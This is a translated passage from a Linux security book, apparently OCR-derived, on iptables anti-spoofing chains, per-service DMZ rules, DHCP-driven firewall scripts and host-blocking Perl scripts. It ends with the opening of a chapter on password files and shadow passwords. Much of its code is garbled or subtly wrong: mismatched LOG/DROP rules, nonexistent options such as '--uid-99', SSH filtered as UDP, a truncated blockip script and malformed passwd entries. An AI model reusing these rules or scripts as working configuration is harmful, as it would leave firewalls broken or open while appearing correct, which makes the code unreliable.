私有 `IP` 地址不可以在互联网上路由，因此如果你看到此类数据包到达防火墙的外部接口，表明远程应用程序配置错误（或编写糟糕），或者攻击者正尝试使用伪造源地址将数据包路由到局域网。无论如何，这些数据包都应该被阻止进入或离开防火墙的外部接口。

`IANA` 为私有使用保留了以下三个区块：

- `10.0.0.0` 到 `10.255.255.255` (`10.0.0.0/8`)
- `172.16.0.0` 到 `172.31.255.255` (`172.16.0.0/12`)
- `192.168.0.0` 到 `192.168.255.255` (`192.168.0.0/16`)


警告：某些ISP（特别是宽带）在本地网络内部使用私有IP地址。可以通过执行`traceroute`看到：

```
traceroute -n google.com
route to google.com (216.239.57.99), 30 hops max,
38 packets
1 192.168.0.10 0.440 ms 0.217 ms 0.136 ms
2 192.168.0.1 0.552 ms 0.511 ms 0.455 ms
3 10.142.247.254 7.855 ms 7.221 ms 9.554 ms
4 213.106.238.113 8.083 ms 8.317 ms 7.470 ms
5 213.106.237.37 9.749 ms 7.575 ms 8.143 ms
```

在这个示例中，跳`2`是防火墙机器，跳`3`是我们的光纤调制解调器；阻止`10.0.0.0`网段访问防火墙外部接口可能会——在这种情况下——引起问题。如果你网络中的任何主机需要访问ISP具有私有地址的主机（例如`DHCP`服务器），你需要确保不要阻止来自该区块的数据包。

# 多播地址

`D`类地址范围（`224.0.0.0`到`239.255.255.255`）的`IP`地址用作参与多播广播的主机（如音频流）的目的地址，并且永远不应该作为源地址出现。

# 单播地址

`A`类范围从`0.0.0.0`到`0.255.255.255`，用作单播地址。再次强调，它永远不应被视为源地址。

# 预留地址

地址`240.0.0.0`到`255.255.255.255`属于`E`类范围，由`IANA`预留用于实验，因此它们作为源地址或目的地址都是非法的。同样，`192.0.2.0`到`192.0.2.255`地址范围预留用于测试网络，`169.254.0.0`到`169.254.255.255`范围用于`DHCP`失败时的自动地址分配；因此，这两个范围都不应被视为进入或离开你的外部接口。

# 回环地址

回环接口（`lo`）在内部实现，且回环流量（`127.0.0.0`到`127.255.255.255`）永远不会通过非回环接口发送。出于此原因，从该范围进入另一个接口的流量必定是经过伪造的。

源地址和目的地址属于同一台机器的数据包也会通过回环接口发送，因此如果在任何其他接口上接收到它们，则它们是不合法的。

像这样的规则列表为使用自定义链提供了一个极佳的机会。通过创建一个专门用于检测非法`IP`地址的特殊链，你只需要在想要检查此类数据包时执行该链，就可以节省大量的输入工作。保留一份规则副本——而不是让它们在多处出现——有利于在需要时轻松进行更改。

在下面的代码中，我们创建了一个名为`bad_packets`的自定义链，并根据上述的地址类填充了规则。所有被丢弃的数据包都会被记录，这取决于你的网络情况，你可能会发现这样做多余并想要将其关闭。然而，记录尝试离开局域网（`LAN`）的非法包与记录进入局域网的非法包同样重要，它是调试配置错误的应用程序（以及检测异常用户）的好方法，因此在决定不记录什么之前，请充分考虑。

```bash
$IPT -N bad_packets
$IPT -P bad_packets ACCEPT

$IPT -A bad_packets -s 10.0.0.0/8 -j LOG \
--log-prefix "illegal_source_address*"
$IPT -A bad_packets -s 10.0.0.0/12 -j DROP
```

```bash
$IPT -A bad_packets -s 172.16.0.0/12 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 172.16.0.0/12 -j DROP
```

## 192.168.0.0 - 192.168.0.255 范围内的地址仅在源 DMZ 时有效

```bash
$IPT -A bad_packets -i $IF_EXT -s 192.168.0.0/24 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -i $IF_EXT -s 192.168.0.0/24 -j DROP

$IPT -A bad_packets -i $IF_LAN -s 192.168.0.0/24 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -i $IF_LAN -s 192.168.0.0/24 -j DROP
```

## 192.168.1.0 - 192.168.1.255 范围内的地址仅在源局域网（LAN）时有效

```bash
$IPT -A bad_packets -i $IF_EXT -s 192.168.1.0/24 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -i $IF_DMZ -s 192.168.1.0/24 -j DROP

$IPT -A bad_packets -i $IF_DMZ -s 192.168.1.0/24 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -i $IF_DMZ -s 192.168.1.0/24 -j DROP
```

## 预留、组播、广播和回环地址

```bash
$IPT -A bad_packets -s 169.254.0.0/16 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 169.254.0.0/16 -j DROP

$IPT -A bad_packets -s 192.0.2.0/16 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 192.0.2.0/16 -j DROP

$IPT -A bad_packets -s 0.0.0.0/8 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 0.0.0.0/8 -j DROP

$IPT -A bad_packets -s 224.0.0.0/4 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 224.0.0.0/4 -j DROP
```

# Linux 网络安全

```bash
$IPT -A bad_packets -s 240.0.0.0/5 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 240.0.0.0/5 -j DROP

$IPT -A bad_packets -s 127.0.0.0/8 -j LOG \
--log-prefix "illegal_source_address"
$IPT -A bad_packets -s 127.0.0.0/8 -j DROP
```

## 一般情况下，指向广播地址 255.255.255.255 的包应该被丢弃

```bash
$IPT -A bad_packets -d 255.255.255.255 -j LOG \
--log-prefix "illegal_dest_address"
$IPT -A bad_packets -d 255.255.255.255 -j DROP
```

指向外部`IP`地址的数据包也应该被，因为它们可以形成几种攻击的基础（参见第2章中的`"Fraggle"`和`"Smurf"`）。如果你的`ISP`使用动态地址，这将是一个问题，因为广播地址可能会变化。然而，第2章创建的`IPTables`脚本包含了忽略广播`ICMP`的设置，因此不需要通过`IPTables`规则来实现相同的功能。

如果你有静态地址，可以添加以下规则（在本例中我们的外部`IP`地址为`1.2.3.17`）：

- 广播地址在大多数情况下通过将地址的最后一个字节替换为`.0`和`.255`来确定。

```bash
$IPT -A bad_packets -d 1.2.3.0 -j LOG --log-prefix "broadcast"
$IPT -A bad_packets -d 1.2.3.0 -j DROP
$IPT -A bad_packets -d 1.2.3.255 -j LOG --log-prefix "broadcast"
$IPT -A bad_packets -d 1.2.3.255 -j DROP
```

此链应该在`INPUT`、`OUTPUT`和`FORWARD`链的开头调用：


```bash
$IPT -I INPUT -j bad_packets
$IPT -I OUTPUT -j bad_packets
$IPT -I FORWARD -j bad_packets
```

# 本地包过滤

到为止所有的示例都在集中防火墙上使用包过滤来保护网络，这种方法不应被视为完整的安全策略，而只是其中的元素。在攻击者成功访问 DMZ 内部机器并尝试提升权限的情况下，单独机器上的额外包过滤可以证明是有价值的。如果你选择在防火墙机器上运行任何服务（这是一个非常愚蠢的主意），攻击者可能会获得防火墙的 root 权限并禁用已启用的包过滤。

因此，本节详细介绍了 DMZ 内部机器的包过滤，给规则应该实现在单独的机器上，而不是防火墙机器上。如之前所述，我们假设 DNS、HTTP 和 SMTP 服务都运行在单独机器上。

我们首先定义稍将在规则集中使用的变量：

```bash
#!/bin/sh

IP_LAN="192.168.0.1"
IP_DMZ="192.168.1.1"
IF_EXT="eth2"
IF_LAN="eth0"
IF_DMZ="eth1"
DMZ_HTTP="192.168.1.1"
```

这也是通过 `/proc` 文件系统进行任何内核调优的好地方。

```bash
### 允许回环流量
$IPT -A INPUT -i lo -j ACCEPT
$IPT -A OUTPUT -o lo -j ACCEPT

## 默认链策略
$IPT -P INPUT DROP
$IPT -P OUTPUT DROP
$IPT -P FORWARD DROP
$IPT -t nat -P PREROUTING DROP
$IPT -t nat -P OUTPUT DROP
$IPT -t nat -P POSTROUTING DROP
$IPT -t mangle -P PREROUTING DROP
$IPT -t mangle -P OUTPUT DROP
```

# HTTP

对于 Web 服务器，所有指向端口 80 或 443 (HTTPS) 的 TCP 包都应该允许进入，除非它们是已连接的一部分。这些数据包的源端口应该在非特权范围（1024:65535）：

```bash
$IPT -A INPUT -p tcp --port 80 --sport 1024:65535 -m state \
  --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A INPUT -p tcp --port 443 --sport 1024:65535 -m state \
  --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
```

什么可以离开机器在很大程度上取决于 Apache 的配置以及与其运行的应用程序。例如，如果 Apache 需要进行 DNS 查询，我们需要允许它访问 DNS 服务器。此外，某些 CGI 脚本需要发送邮件（例如向用户发送密码），并访问局域网内部的 SMTP 服务器：

```bash
$IPT -A OUTPUT -d DMZ_DNS -p tcp --dport 53 --sport 1024:65535 \
  -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A OUTPUT -d DMZ_DNS -p tcp --sport 53 -m state \
  --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A OUTPUT -d DMZ_MAIL -p tcp --dport 25 -m state \
  --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

但我们始终需要允许源端口为 80 或 443 的流量离开机器：

```bash
$IPT -A OUTPUT -p tcp --dport 80 --sport 1024:65535 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -p tcp --dport 443 --sport 1024:65535 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

我们可以通过使用 `-m owner` 扩展来指定进程的所有者以收紧这些规则；在所有情况下，它将是用户 ID，Apache 通常以 www、http、apache 或 nobody 用户的身份运行：

```bash
$IPT -A OUTPUT -m owner --uid-99 -d $DMZ_DNS -p tcp \
--dport 53 --sport 1024:65535 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-99 -d $DMZ_DNS -p tcp \
--dport 53 --sport 53 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-99 -d $DMZ_MAIL -p tcp \
--dport 25 -m state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-99 -p tcp -sport 80 \
--dport 1024:65535 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-99 -p tcp -sport 443 \
--dport 1024:65535 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

# SMTP

类似的方法可以应用于 SMTP 服务器。这里只应允许目的端口为 25 的 TCP 数据包（除非它们是已连接的一部分）；如果数据包源自 TCP 端口 25 或处于 1024:65535 范围，并且由 SMTP 服务器所有，则允许其出（sendmail 通常需要以 root、uid 0 运行）。与 Apache 一样，sendmail 也需要能够执行 DNS 查询：

```bash
$IPT -A INPUT -m state --state ESTABLISHED -j ACCEPT
```

```bash
$IPT -A INPUT -p tcp --dport 25 --sport 1024:65535 -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

## 194 Linux 网络安全

```bash
$IPT -A OUTPUT -d DMZ_DNS -p tcp --dport 53 --sport 1024:65535 \
-m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -d DMZ_DNS -p tcp --dport 53 --sport 53 \
-m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -d DMZ_DNS -p tcp \
--dport 53 1024:65535 -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -d DMZ_DNS -p tcp \
--dport 53 --sport 53 -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -d DMZ_MAIL -p tcp \
--dport 25 -m state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -p tcp --sport 80 \
--dport 1024:65535 -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```


# DNS

在本章较早部分，我们涵盖了可能流向和来自 DNS 服务器的流量类型。再次，我们首先允许进入端口 53 的入站 TCP 或 UDP 请求，以及所有属于已连接的数据包：

```bash
$IPT -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A INPUT -p tcp --dport 53 --sport 1024:65535 -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A INPUT -p udp --dport 53 --sport 53 -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A INPUT -p tcp --dport 53 1024:65535 -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```

## 使用 Iptables 进行包过滤 195

根据版本（以及配置），BIND 在创建出站连接时使用端口 53 或非特权端口：

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -p tcp --sport 53 \
-m state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -p tcp --sport 1024:65535 \
-m state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -p udp --sport 53 \
-m state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m owner --uid-owner 0 -p udp --sport 1024:65535 \
-m state NEW,ESTABLISHED,RELATED -j ACCEPT
```

# SSH

之前我们提到通过连接 LAN 内部的服务器允许远程主机访问防火墙。这种远程访问并不理想，但在实践中可能是必要的，并且比直接访问防火墙要好。如果你选择这种设置，请确保正确配置守护进程——理想情况下它应该运行在另一台机器上。允许离开机器的唯一流量应该是指向防火墙的或者是守护进程与远程主机之间的已连接流量：

```bash
$IPT -A INPUT -p udp --sport 1024:65535 --dport 22 \
-d <防火墙IP地址> -m state \
--state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -p udp --sport 22 -state ESTABLISHED,RELATED -j ACCEPT
```

## 5.3 防火墙管理：处理动态 IP

动态 IP 主要出现在拨号上网，分配给主机的时间从几小时到几个月不等。在以太网的网络上（例如电缆调制调器使用的），通常使用 DHCP；除了为主机分配 IP 地址外，DNS 服务器、网关和广播等信息也可能传递给客户端。这在创建防火墙时会产生问题。虽然可以使用 `MASQUERADE` 目标来避免知道主机的 IP 地址（此处由于原文拼写错误为 ES，应为 ADDRESS），但 DNS 服务器等信息通常被硬编码在防火墙脚本中。对于动态地址的主机，必须采取措施自动同步从 DHCP 服务器接收到的信息。

# DHCPCD

大多数 Linux 系统的默认 DHCP 客户端名为 `dhcpcd`。当配置了 DHCP 的接口启动时（例如进入运行级别 3），`dhcpcd` 在后台启动并尝试联系 DHCP 服务器。成功查询 DHCP 服务器后，检索的信息写入文件中。该文件的位置取决于发行版。在 SuSE 和较新版本的 Red Hat 中，可以在 `/var/lib/dhcpcd` 找到；在许多其他系统中，它位于 `/etc/dhcpcd`。文件的格式为 `dhcpcd-eth0.info`，其中 `eth0` 被替换为接口名称。

```text
# cat dhcpcd-eth2.info
IPADDR=1.2.3.4
NETMASK=255.255.255.0
NETWORK=1.2.3.0
BROADCAST=255.255.255.255
GATEWAY=1.2.3.254
HOSTNAME='host.example.org'
DNS=194.164.8.100,194.164.4.100
DHCPID=62.254.64.20
DHCPGIADDR=0.0.0.0
DHCPCHADDR=00:A5:24:4C:3E:57
DHCPHSADDR=00:0C:36:E5:54:8C
DHCPNAME=''
LEASETIME=61939
RENEWTIME=30969
```

## 使用 Iptables 进行包过滤 197

```text
REBINDTIME=54196

INTERFACE='eth2'

CLASSID='Linux 2.4.21-144-default i686'

CLIENTID=00:A0:24:4C:3E:57
```

使用一点 shell 脚本，你可以修改防火墙脚本来读取文件中存储的值：

```bash
#!/bin/bash
IP_EXT=$(grep IPADDR=/etc/dhcp/dhcpcd-eth0.info | cut -f 2 -d '=')
GATEWAY=$(grep GATEWAY=/etc/dhcp/dhcpcd-eth0.info | cut -f 2 -d '=')
```

对于 DNS 服务器，脚本稍微复杂一些，因为使用了逗号分隔的列表。这次，我们通过 `cut` 两次管道输出，第二次使用逗号作为分隔符。

如果列表中只有一个 IP 地址，`$IP_DNS2` 将具有与 `$IP_DNS1` 相同的值。

现在防火墙变量设置机制已经就绪，需要一种方法在这些变量可用时自动执行防火墙。这因发行版而异，我们在这里介绍最常见的方法。

在许多系统中，每当 DHCP 启动接口时，都会调用 shell 脚本 `/etc/dhcp/dhcp.exe`（可以通过调用 `-c` 切换切换要执行的脚本名称）。在其他系统中，会执行一个钩子脚本（SUSE 为 `/etc/sysconfig/network/scripts/dhcpcd-hook`）。无论如何，你只需要在适当的脚本中添加条目来执行防火墙，例如：

```bash
source /usr/local/etc/rc.firewall
```

## 阻塞与取消阻塞主机

在本章早期，你已经看到了如何使用外部文件来存储主机列表，然后这些列表可以被 Iptables 处理。在我们的示例中，我们使用该文件来维护一个需要拒绝访问的 IP 地址列表：

```bash
for host in /usr/local/etc/hosts.deny; do
IPT -I INPUT -s $host -j DROP
IPT -I FORWARD -s $host -j DROP
IPT -I OUTPUT -d $host -j DROP
IPT -I FORWARD -d $host -j DROP
done
```

这确实简化了阻塞主机的过程，但请记住，每当修改 `/usr/local/etc/hosts.deny` 时，必须重新加载防火墙规则集。我们可以通过编写脚本从阻塞列表中添加/删除主机，然后自动重启防火墙，让事情变得更加简单：


```perl
#!/bin/bin/perl

use Fcntl(:DEFAULT:flock);
## 文件路径
$hostsfile = "/usr/local/etc/hosts.deny";
## 防火墙脚本路径
$fwscript = "/usr/local/etc/rc.firewall";

$ARGV[0] or die "Syntax:\n blockip <ip address or host>\n";

open (FH, ">>\$hostsfile")
|| die "Couldn't open \$hostsfile: \$!\n";
lock(FH, LOCK_SH | LOCK_NB)
or die "ERROR, can't lock filehandle: \$!\n";
```

修改脚本顶部的 `$hostsfile` 和 `$fwscript` 变量（如有必要），并将文件保存到 `/usr/local/bin` 中，命名为 `blockip`。将文件的权限设置为 `0700`。现在，阻塞主机只需将要阻塞的主机作为参数调用脚本：

```bash
# blockip 1.2.3.4
Host added, restarting firewall ..
Firewall started
```

要从阻塞列表中移除主机，请使用以下脚本：

```perl
#!/usr/bin/perl
use Fcntl qw(:DEFAULT :flock);
## 主机文件路径
$hostsfile = "/usr/local/etc/hosts.deny";
## 防火墙脚本路径
$fwscript = "/usr/local/etc/rc.firewall";

$ARGV[0] or die "Syntax: unblockip <ip address or host>\n";
open (FH, "<$hostsfile")
|| die "Couldn't open hostsfile: \$1\n";
flock(FH, LOCK_SH | LOCK_NB)
or die "ERROR, can't lock filehandle: \$1\n";
chomp(@lines = <FH>);
close FH;

$found = 0;

open (FH, ">$hostsfile")
|| die "Couldn't write to $hostsfile: \$1\n";
flock(FH, LOCK_SH | LOCK_NB)
or die "ERROR, can't lock filehandle: \$1\n";

for (@lines) {
  if ($_ eq $ARGV[0]) {
    $found = 1;
  } else {
    print FH "\$, "\n";
  }
}
close FH;

if ($found) {
    print "Host found and removed, restarting firewall...\n";
    exec ("/bin/bash $fwscript");
} else {
    print "Host NOT found, check your spelling and try again\n";
}
```

此脚本也应保存在 `/usr/local/bin` 中，权限为 `0700`，并命名为 `unblockip`。这两个脚本都可以在光光盘的 `Chapter 5/` 目录下找到。

## 使用 GUI 管理工具

精通 `iptables` 可能需要经历一条陡峭的学习曲线。除了 `iptables` 命令支持的海量选项外，你还必须对 `TCP/IP` 网络有良好的理解，并喜欢内核配置。有几个基于 GUI 的工具可以帮助管理防火墙规则集，尽管它们永远无法像命令行工具那样强大或灵活，但它们确实提供了一种快速简易管理防火墙的方法。本节回顾了几个最流行的工具。

## IPMenu

`IPMenu` ([http://users.pandora.be/stes/ipmenu.html](http://users.pandora.be/stes/ipmenu.html)) 是用 `curses` 编写的 `curses` 风格应用程序，`curses` 是一种提供基于字符的表单和菜单框架的元语言。`IPMenu` 需要 `Objective-C` 和 `curses`。

图 5.2 显示在 `xterm` 中运行的 `IPMenu`；因为它在控制台中运行，因此非常适合远程管理。

除了支持 `iptables` 之外，`IPMenu` 还提供了 `iproute` 工具的接口，该工具在 `Linux` 上提供高级路由。


## 使用 Iptables 进行包过滤 201

| 1 Tables | 2 Chains | 3 Chain |
|---|---|---|
| 1 Filter | 1 Input | 1 Show |
| | | |
| | 4 | Accept on Incoming Interface |

图 5.2 `IPMenu` `iptables` 管理工具。

## 龟防火防火墙

`Turtle Firewall` ([http://www.turtlefirewall.com/](http://www.turtlefirewall.com/)) 是作为 `Webmin` 控制面板的模块实现的。

| Edit | Target |
|---|---|
| Source | FIREWALL |
| Destination | internet |
| Service | ACCEPT |
| tcp | all |
| auth | Service |
| cvs | Service |
| dhcp | Service |
| dns | Service |
| tcp | |
| Description | |
| Rule | Description |
|---|---|
| rp_filter | 1 |
| log_limit | 60 |
| tp_conrack_max | 8192 |
| drop_unclean | on |
| drop_invalid_stale | on |
| drop_invalid_all | on |
| drop_invalid_none | on |
| drop_invalid_ack | on |
| drop_invalid_syn_fa | on |
| drop_invalid_syn_rat | on |
| drop_invalid_fragment | on |

图 5.3 `Webmin` 接口。

## 5.4

## 总结

本章介绍了如何使用 `iptables` 提供可配置的过滤——可以在网络边界也可以在单个主机上。前者更通用，允许控制进出网络的流量，而后者则允许定义更严格的规则。

我们花了一些时间详细介绍 `iptables` 支持的各种选项，例如匹配、目标和日志。你不需要记住所有的语法，但你应该了解存在的各种选项及其潜在用途（例如，用于 `ICMP` 泛洪的速率限制，以及端口扫描的日志）。由于有效的防火墙依赖于对协议的理解，我们简要介绍了 `DNS` 和 `DHCP` 等较不直观的协议是如何工作的，并提供了允许它们正确运行的示例规则。

我们还提供了一个保护在 `DMZ` 中运行 `DNS`、邮件和 `HTTP` 服务的三腿拓扑结构的示例规则集，你可以在随附的光盘上找到 `firewall.sh`。网络拓扑结构和网络一样多样，你可能会发现需要根据特定需求修改此规则集；然而，它应该是一个非常有用的起点。

# 6 基础系统安全措施

本章内容

- 密码保护

- 用户控制与 `PAM`

- 服务

- 收紧用户权限

- 委托 `root` 权限

- 物理安全

到目前为止，我们一直关注网络，但现在让我们把转向系统本身的安全性，看看我们可以采取哪些保护它的基本措施。即使你觉得你的网络已经通过防火墙隔绝了远程攻击者，仍然存在本地用户的威胁；而且——取决于你组织的规模和性质——这种威胁可能是巨大的。即使你幸运到不需要担心本地用户（可能你运行的是家庭局域网或小微企业），本章仍然具有意义，因为这里描述的技术在对抗远程攻击者时同样有用。在本书的后面，我们将介绍更高级的系统保护方法，例如访问控制列表（`ACL`）、特定服务的配置选项以及缓冲区溢出保护；但现在我们将专注于基础知识。

要采取的首要（也是最重要的）的步骤之一是保护系统，因为弱密码是攻击者获取系统立足点的常用方式。我们将查看 `/etc/passwd` 和 `/etc/shadow` 文件，讨论什么是好密码，并探索控制密码策略的选项。然后，我们引入可插拔认证模块（`PAM`），它可以用于对用户和密码进行更细粒度的控制。

在第 4 章“评估网络”中，我们查看了使用 `Nmap` 等工具查找系统上的服务，在第 5 章“使用 `Iptables` 进行包过滤”中，我们讨论了如何过滤端口。然而，比过滤端口的方法是完全关闭不必要的服务；在 6.3 节中，我们将探索如何发现并禁用此类服务。

在第 6.4 节中，我们将收紧文件权限，涵盖 `SUID` 和 `GID` 文件属性的危险以及挂载分区的选项。这些技术可以防止本地用户（或已获得本地访问的远程攻击者）滥用系统或提升权限。


作为管理员，你会发现自己想要将某些权力委托给信任的用户——也许授予某人修改 DNS 记录的权限，授予另人更新和管理 Web 的权限——但这带来了问题。你应该给这些用户你的 root 密码吗？或者专门为他们创建一个 root 级账户？这两种解决方案都不特别吸引人，因为它们赋予用户的权力超过了他们完成工作所需的权限。在第 6.5 节中，我们将查看如何使用 SUDO 包以更细粒度的方式委托管理权限。

最后，我们通过讨论物理安全来结束本章——这是一个经常被忽视的领域。我们考虑了 BIOS 密码的使用、LILO 和 GRUB 引导器的安全性，以及禁用 Ctrl-Alt-Del 序列。这些措施是系统整体安全的重要部分，因为如果攻击者可以简单地将系统引导到单用户模式（这将赋予他一个无需密码的 root shell），即使是最复杂的安全措施也……

## 6.1 密码保护

大多数操作系统的共同主题是使用密码保护来管理用户可能执行的操作，Linux 也不例外。在本节中，我们将查看 `/etc/passwd` 机制、普通攻击者如何使用密码影子（Password Shadowing）、强密码策略以及用于控制用户登录的系统工具。

### `/etc/passwd` 文件

Linux 安全的核心是 `/etc/passwd` 文件，它包含了系统上所有用户的详细信息。如果一个用户想要登录，必须列在该文件中。早期的 Linux 版本对 `/etc/passwd` 文件使用以下格式，每个字段之间用冒号分隔：

- 用户名

- 加密或哈希密码（取决于使用的加密方法）

- 用户 ID (UID)

- 组 ID (GID)

- Gecos 字段，对用户的注释，如真实姓名、电话号码等

- 用户家目录

- 用户的默认 shell

这些 passwd 文件的一个典型示例所示：

```
# cat /etc/passwd
root:4cvyI2N1569:0:root:/bin/bash
bin::1:bin:/sbin/nologin
daemon::2:daemon:/sbin/nologin
adm:3:4:var/adm:/sbin/nologin
lp:4:7:var/pool/lpd:/sbin/nologin
sync:5:0:sync:/sbin/sync
shutdown:6:0:shutdown:/sbin/shutdown
halt:7:0:halt:/sbin/halt
mail:8:12:var/pool/mail:/sbin/nologin
news:9:13:var/pool/news:/sbin/nologin
uuccp:10:14:uucp:/var/pool/uucp:/sbin/nologin
operator:11:0:root:/sbin/nologin
games:12:100:user:/games:/sbin/nologin
gopher:13:30:gopher:/var/gopher:/sbin/nologin
ftp:14:50:FTP User:/var/ftp:/sbin/nologin
body:99:99:Nobody::/sbin/nologin
apache:48:48:Apache:/var/www:/bin/false
named:25:25:Named:/var/named:/bin/false
mysql:27:27:MySQL Server:/var/lib/mysql:/bin/bash
susanna:501:0:/home/susanna
rebecca:502:502:/home/reaccar:/bin/bash
```

当用户尝试登录时，输入的密码会被加密并与第二个字段中的存储的值进行比较；如果匹配，则允许访问。密码字段带有星号的账户无法登录（用户将收到错误）。

### 影子密码

这种方案的问题是 `/etc/passwd` 是全局可读的，密码容易受到破解。系统上的任何用户都可以加载 passwd 文件到破解器（如 John Ripper）中，而你的密码必须足够强才能抵抗。为了解决这个问题，现代版本的 Linux 使用密码影子。有了影子密码，`/etc/passwd` 中的密码字段被替换为 'x'真正的密码存储在 `/etc/shadow` 中。影子版本的 `/etc/passwd` 如下：

```
$cat /etc/passwd
root:x:0:0:/bin/bash
bin:x:1:bin:/sbin/nologin
daemon:x:2:daemon:/sbin/nologin
adm:x:3:4:var/adm:/sbin/nologin
lp:x:4:7:var/pool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin/sync
shutdown:x:6:0:shutdown:/sbin/shutdown
halt:x:7:0:halt:/sbin/halt
mail:x:8:12:var/pool/mail:/sbin/nologin
news:x:9:13:var/pool/news:/sbin/nologin
uuccp:x:10:14:uucp:/var/pool/uucp:/sbin/nologin
operator:x:11:0:root:/sbin/nologin
games:x:12:100:user:/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody::/sbin/nologin
apache:x:48:48:Apache:/var/www:/bin/false
named:x:25:25:Named:/var/named:/bin/false
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
susanna:x:501:0:/home/susanna
rebecca:x:502:502:/home/reaccar:/bin/bash
```

以及相关的 `/etc/shadow` 文件：

```
root:$1$K30jXJ5CqSq7Hv2xbRT12uaCp.SW1:12222:0:99999:7::
bin:*12177:0:99999:7::
daemon:*12177:0:99999:7::
adm:*12177:0:99999:7::
lp:*12177:0:99999:7::
sync:*12177:0:99999:7::
shutdown:*12177:0:99999:7::
halt:*12177:0:99999:7::
mail:*12177:0:99999:7::
news:*12177:0:99999:7::
uucp:*12177:0:99999:7::
operator:*12177:0:99999:7::
games:*12177:0:99999:7::
gopher:*12177:0:99999:7::
ftp:*12177:0:99999:7::
nobody:*12177:0:99999:7::
apache::12177:0:99999:7::
named::12177:0:99999:7::
mysql::12177:0:99999:7::
sanna:$1$2Y5KeHO$uygh9F5Foxnj/OThhg8r/12218:0:99999:7::
becca:$1$jScdN5ZV/Mt4x6b9Cy4fXnz6TOT1:12218:0:99999:7::
```

显然是第二个加密密码，但其他的字段呢？它们是（顺序如下）：

- 用户名

- 加密密码

- 上次更改密码自 Unix epoch 天数

- 用户可以更改密码的天数

- 用户必须更改密码的天数

- 密码到期前给用户的提前警告天数

- 自密码未更改起账户被禁用的 Unix epoch 天数

- 预留供以后使用

密码字段为 `*` 或 `11` 将禁用用户登录。这主要用于系统账户。其他任何字段中的 `-1` 或空值都将禁用

# 210 Linux 网络安全

特性（例如）

## 启用影子密码 (Shadowed Passwords)

如果由于某种原因系统没有使用影子密码文件，那么转换为影子密码应该是首要任务。大多数系统都支持影子加密，即使默认未启用，也可以通过运行 `pwconv` 命令轻松启用（别忘了也运行 `grpconv` 来启用 `/etc/group` 的影子加密）。

## chage

密码加密不仅降低了账户被破解的风险，而且正如我们看到的，它引入了强制执行策略的能力，例如密码更改频率。为了操作这些字段，Shadow 套件提供了 `chage` 命令。语法如下：

``````
chage [-m days] [-M maxdays] [-d lastday] [-I inactive]
[-E expiredate] [-W wardays] user
```


使用文本编辑器打开`/etc/passwd`或`/etc/shadow`文件进行修改似乎看起来很有吸引力，但如果另一个进程尝试写入这些文件，可能会导致损坏。请始终使用`vipw`等系统工具进行更改。你还可以使用`-l`标志查看用户当前的设置：

```bash
$ chage -l pete
Minimum: 0
Maximum: 99999
Warning: 7
Inactive: -1
Last Change: Apr 09, 2004
Password Expires: Never
Password Inactive: Never
Account Expires: Never
```

我们将最小允许的密码长度设置为八字符，并强制用户每六到八周更改一次密码（你可以设置更短的时间，但这会增加用户写下密码的可能性）。除了这些措施外，大多数现代`passwd`程序在密码“弱”（这是一个相当主观的术语）还会发出警告（但仍接受）。稍后你会看到，`PAM`以及`/etc/login.defs`文件对密码策略提供了更强大的控制。

## 密码保护算法

